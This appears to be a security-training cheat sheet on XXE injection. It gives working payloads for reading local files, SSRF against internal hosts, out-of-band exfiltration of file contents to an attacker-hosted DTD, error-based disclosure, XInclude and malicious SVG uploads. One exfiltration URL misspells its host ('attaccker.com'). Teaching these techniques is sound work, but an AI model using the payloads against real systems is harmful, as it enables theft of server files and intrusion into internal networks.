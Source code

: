 ```yaml
---
title: "XXE"
weight: 30
---
```


# XXE

{{< details summary="Introduction" >}}

**What is XML**

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

**XXE Impact**

* Retrieve files
* Perform SSRF attacks

{{< /details >}}

## Retrieve files

1. Introduce (or edit) a `DOCTYPE` element defining an external entity with the file path.
2. Edit a data value in the XML returned in the app's response to use the defined external entity.

{{< hint style=notes >}}
**Note**: to systematically test for XXE, test each data node in the XML individually using your defined entity to see if it appears in the response.
{{< /hint >}}

***

**Original**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

**Exploitation**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Perform SSRF attacks

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>1&xxe;</productId><storeId>1</storeId></stockCheck>
```

## Blind XXE

### Out-of-band (OAST) techniques

**Detection**

* Detecting as SSRF
  * ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
    ```
* Regular entities are blocked? Bypass via XML parameter entities
  * ```xml
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
    ```
  * This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD

**Exploitation**

1. Start a web server and host on `http://attacker.com/example.dtd` this malicious dtd.

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attaccker.com/?x=%file;'>">
%stack;
%exfil;
```

2. Add this external entity

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/example.dtd"> %xxe;]>
```

{{< hint style=notes >}}
**Note**: This technique might not work with multiline files.
{{< /hint >}}

### Via error messages

Trigger an XML parsing error message with the file contents.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

{{< hint style=notes >}}
**Note**: This works if you notice an error in the response when detecting with OAST (e.g., the reflected URL entered).
{{< /hint >}}

## Hidden attack surface

* **First case** - Requests that contain data in XML format
* **Second case -** Requests that do not contain any XML
  * **Detection**: Add entity reference that doesn't exist to cause an error  -> ok it's XML

### XInclude attacks

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document.

`XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents.

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

```http
POST /product/stock HTTP/2
Host: vulnerable.website.com
[...]

productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude">
<xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

### Via file upload

Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

This works if it's used image processing library & support SVG images & allow external entity.

### Via modified content type

Some web app will tolerate other content types.

**Expected request**

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

**Submit following request**

```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
